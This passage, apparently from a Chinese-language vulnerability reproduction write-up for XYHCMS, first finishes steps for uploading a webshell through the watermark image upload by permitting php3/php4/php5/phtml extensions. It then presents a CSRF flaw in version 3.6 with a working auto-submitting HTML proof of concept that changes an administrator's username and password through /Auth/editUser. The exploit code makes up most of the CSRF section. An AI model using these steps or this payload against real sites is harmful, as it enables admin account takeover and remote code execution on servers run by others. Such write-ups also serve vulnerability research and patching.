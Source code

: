 3.添加类型 php3或 php4或 php5 或 phtml



[![fiI64f.png](https://z3.ax1x.com/2021/08/03/fiI64f.png)](https://imgtu.com/i/fiI64f)



4.点击下面的 水印图片上传上传以上后缀shell


5.之后会在图片部分显示上传路径

[![fiI28S.png](https://z3.ax1x.com/2021/08/03/fiI28S.png)](https://imgtu.com/i/fiI28S)

### 六.XYHCMS 3.6 CSRF 漏洞

------

###  

#### 漏洞介绍



此版本存在一个csrf漏洞，可以更改管理员的任何信息（姓名、电子邮件、密码等）。



#### 漏洞复现

poc：

```html
<html>  
    <head>     
        <script>         
            function submit(){        
                var form = document.getElementById('test_form');            
                form.submit();
          
            }
        </script> 
    </head>  
    <body onload="submit()">

        
  
        <script>history.pushState('', '', '/')</script>   
        <form action="http://xyh.com/xyhai.php?s=/Auth/editUser" method="POST" id="test_form">
            <input type="hidden" name="id" value="3" />      
            <input type="hidden" name="username" value="test" />     
            <input type="hidden" name="password" value="qweqwe" />     
            <input type="hidden" name="department&#91;&#93;" value="1" />    
            <input type="hidden" name="department&#91;&#93;" value="4" />    
            <input type="hidden" name="department&#91;&#93;" value="3" />    
            <input type="hidden" name="group&#95;id&#91;&#93;" value="1" />    
            <input type="hidden" name="realname" value="13" />    
            <input type="hidden" name="email" value="aa&#64;test&#46;com" />    
            <input type="hidden" name="is&#95;lock" value="0" />   
        </form> 
    </body>
</html>
```
